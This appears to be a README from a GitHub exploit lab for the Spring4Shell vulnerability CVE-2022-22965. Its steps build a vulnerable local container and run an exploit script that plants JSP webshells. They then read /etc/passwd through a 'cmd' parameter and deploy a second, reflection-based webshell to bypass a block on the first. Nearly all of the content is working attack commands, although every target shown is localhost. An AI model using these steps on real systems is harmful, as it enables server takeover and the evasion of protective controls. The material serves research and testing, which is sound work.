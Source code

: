 1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit-bypass-with-reflection -f bypass-using-reflection-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit-bypass-with-reflection
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="basic" 
8. curl "http://localhost:8080/basic.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
![block.png](block.png)
9. Now deploy another webshell that uses reflection;
`   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection" 
`
10. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
 ![bypass.png](bypass.png)